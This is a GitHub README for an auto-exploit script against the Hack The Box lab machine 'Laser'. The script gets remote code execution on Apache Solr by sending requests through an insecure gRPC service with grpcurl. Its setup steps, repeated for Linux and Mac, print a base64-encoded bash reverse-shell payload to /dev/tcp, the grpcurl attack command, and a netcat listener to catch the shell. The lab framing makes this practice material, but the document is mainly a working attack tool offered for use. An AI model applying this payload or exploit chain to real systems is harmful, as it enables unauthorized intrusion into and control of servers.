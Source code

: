 # Pwnsolar-Laser-HTB
Auto-exploiter for 'Laser' on hackthebox | RCE Apache solr 

> I was bored so i went on hackthebox.eu, i did a box called 'laser' and to my suprise it was very hard..
> After i discovered Apache solr was running on port 8389 behind a insecure gRPC channel i had an idea
> 



## PWNER.py
[+] We send POST request to set params.resource.loader.enabled as true <br>
[+] We send GET request to exec command thru unicode <br>
[+] All requests sended using gRPC Framework <br>
[+] We use grpcurl to send requests <br>




## INSTALLATION

### Linux (Ubuntu/Debian)

1) Clone this repo [Autopwner Laser](https://github.com/EmirhanSarikaya/Pwnsolar-Laser-HTB.git) <br>
-> git clone https://github.com/EmirhanSarikaya/Pwnsolar-Laser-HTB.git <br>
2) Edit pwner.py, set your ip & port which u listen to at /dev/tcp/$IP/$PORT<br>
payload = 'bash -c {echo,' + base64.b64encode("bash -i >& /dev/tcp/10.10.x.x/6666 0>&1").replace('+','%2b') + '}|{base64,-d}|{bash,-i}' <br><br>
3) Edit pwner.py, set location of grpcurl & set laser.proto file & change ip of target machine <br>
cmd = '/home/$username/HTB/Laser/grpcurl -max-time 5 -plaintext -proto laser.proto -d \'{"data":"' + feed_url_b64 + '"}\' 10.10.10.201:9000 Print.Feed' <br>
4) python2 pwner.py & listen to nc -lvp 



### Mac


1) Clone this repo [Autopwner Laser](https://github.com/EmirhanSarikaya/Pwnsolar-Laser-HTB.git) <br>
-> git clone https://github.com/EmirhanSarikaya/Pwnsolar-Laser-HTB.git <br><br>
2) Edit pwner.py, set your ip & port which u listen to at /dev/tcp/$IP/$PORT<br>
payload = 'bash -c {echo,' + base64.b64encode("bash -i >& /dev/tcp/10.10.x.x/6666 0>&1").replace('+','%2b') + '}|{base64,-d}|{bash,-i}' <br>
3) Edit pwner.py, set location of grpcurl & set laser.proto file & change ip of target machine <br>
cmd = '/home/$username/HTB/Laser/grpcurl -max-time 5 -plaintext -proto laser.proto -d \'{"data":"' + feed_url_b64 + '"}\' 10.10.10.201:9000 Print.Feed' <br>
4) python2 pwner.py & listen to nc -lvp 


winblows :P

*** MADE IN PYTHON 2.7 ***
